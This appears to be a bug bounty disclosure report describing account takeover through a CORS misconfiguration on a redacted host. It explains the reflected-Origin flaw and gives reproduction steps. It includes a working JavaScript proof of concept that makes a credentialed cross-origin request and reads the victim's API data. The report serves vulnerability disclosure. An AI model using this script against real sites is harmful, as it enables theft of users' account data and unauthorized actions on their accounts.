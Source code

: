 Account takeover via CORS


Hi,


## Summary

The following host suffer to a CORS (Cross Origin Resource Sharing) misconfiguration.

xxx.xxxxxxxxxxx.xxx


## Description

Since the header `Access-Control-Allow-Credentials` is set to `true` and since the header `Access-Control-Allow-Origin` in the HTTP response reflects the header `Origin` in the HTTP request, it's possible for a malicious page to trick it to allow this remote website to access customers datas and perform unauthorized actions.
All actions available in the API to be exact like xxxxxxxxxxxxxxxxxxxxxx and so on, a full CRUD access to the account.


## Steps to Reproduce

1/ login your account here:
`https://xxx.xxxxxxxxxxxxxx.xxx`
2/ add something in your cart, like a domain
3/ Open a new tab in your browser and visit this url:
`http://poc.xxxxxxxxxxxx.xxx/poc/xxxxxxxxxxx.html`

Your personnal infos must be displayed. 


## PoC

{}

__Script__
```
<script type="text/javascript">
  function cors() {
  var xhttp = new XMLHttpRequest();

  xhttp.onreadystatechange = function() {
    //if (this.readyState == 4 && this.status == 200) {
    document.getElementById("demo").innerHTML = this.responseText;
    //}
  };

  xhttp.open("GET", "https://xxx.xxxxxxxxxxx.xxx/api/xxxxx", true);
  xhttp.withCredentials = true;
  xhttp.send();
}

cors();
</script>
```


## See also

https://www.owasp.org/index.php/CORS_OriginHeaderScrutiny
http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html
https://www.cynet.com/wp-content/uploads/2016/12/Blog-Post-BugSec-Cynet-Facebook-Originull.pdf




Best regards,

Gwen

